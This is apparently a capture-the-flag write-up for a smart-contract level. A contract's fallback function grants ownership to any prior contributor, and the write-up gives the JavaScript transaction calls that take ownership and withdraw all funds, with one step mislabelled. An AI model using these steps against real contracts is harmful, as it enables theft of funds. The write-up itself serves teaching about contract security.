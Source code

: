 -The fallback() function contained the lined

`if (contributions[msg.sender] > 0) {
    owner = msg.sender;
}
`

-Understood that if we send ether directly to the contract and we already have a contribution, we can become the owner

`
await contract.contribute.sendTransaction({ from: player, value: 1 });
`

-Once we have become the owner, call the withdraw() function and take out all the funds

`
await contract.sendTransaction({ from: player, value: 1 });
`

- Verfied the ownership by
  
`
await contract.owner();
`

- After ownership verification, we can withdraw

`
await contract.withdraw();
`

-Completed the level by submitting the instance 
